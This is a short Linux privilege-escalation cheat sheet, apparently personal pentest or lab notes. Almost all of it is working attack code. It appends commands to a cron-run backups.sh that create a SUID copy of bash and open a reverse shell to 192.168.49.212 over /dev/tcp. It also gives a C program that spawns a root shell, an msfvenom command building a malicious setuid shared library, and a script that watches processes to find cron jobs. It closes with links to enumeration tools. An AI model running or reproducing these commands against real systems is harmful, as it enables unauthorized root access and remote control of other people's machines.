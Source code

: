 ### Scripts

### BASH
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> backups.sh

echo 'bash -i >& /dev/tcp/192.168.49.212/12445 0>&1' >> backups.sh
```

#### SUID

```
int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}

# Compile
gcc suid.c -o suid

```
### MSFVENOM LIBRARY Priv Esc
```
msfvenom -p linux/x64/exec -cmd '/bin/bash' -f elf-so -o libmalbec.so PrependSetuid=TRUE
```

#### PS Monitor for cron

```
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
	sleep 1
	old_process=$new_process
done

#PSPY32 for PS monitor
./pspy32 
```

### Linux Privesc Tools

- [GTFOBins](https://gtfobins.github.io/)
- [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [LinuxExploitSuggester](https://gitlab.com/kalilinux/packages/linux-exploit-suggester/blob/kali/master/Linux_Exploit_Suggester.pl)
- [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
